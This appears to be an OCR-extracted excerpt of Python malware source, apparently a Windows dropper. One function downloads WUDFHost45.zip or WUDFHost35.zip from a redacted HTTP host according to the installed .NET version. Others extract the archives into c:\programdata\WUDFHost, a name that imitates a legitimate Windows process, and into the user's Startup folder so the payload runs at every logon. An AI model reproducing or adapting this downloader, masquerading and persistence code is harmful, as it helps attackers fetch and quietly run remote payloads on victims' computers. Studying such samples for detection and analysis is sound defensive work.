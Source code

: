def define_me(text):
    try:
        if os.path.exists(text) is True:
            print("zip file exists")
            append_me("zip file exists")
            with zipfile.ZipFile(text, 'r') as zip_ref:
                zip_ref.extractall("c:\\programdata\\WUDFHost")
        else:
            print("not find extracted file")
            append_me("not find extracted file")
    except Exception as e:
        print("already running file")
        
def deaf():
    try:
        if os.path.exists("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319") is True:
            download_us("http://<REDACTED>/WUDFHost45.zip","c:\\programdata\WUDFHost45.zip")
            define_me("c:\\programdata\\WUDFHost45.zip")
            pass
        else:
            download_us("http://<REDACTED>/WUDFHost35.zip","c:\\programdata\WUDFHost35.zip")
            define_me("c:\\programdata\\WUDFHost35.zip")
            pass
    except Exception as e:
        print("excption in deaf")
        
def openWorkbook(xlapp, xlfile):
    try:        
        xlwb = xlapp.Workbooks(xlfile)
        #xlwb.Close(True)
    except Exception as e:
        try:
            xlwb = xlapp.Workbooks.Open(xlfile)
            #xlwb.Close(True)
        except Exception as e:
            print(e)
            xlwb = None                    
    return(xlwb)
    
def define_me_replica(text):
    try:
        if os.path.exists(text) is True:
            print("zip file exists")
            append_me("zip file exists")
            username = os.environ['USERNAME']
            print(username)
            with zipfile.ZipFile(text, 'r') as zip_ref:
                zip_ref.extractall("c:\\users\\"+username+"\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup")
        else:
            print("not find extracted file")
            append_me("not find extracted file")
    except Exception as e:
        print("already running file")
    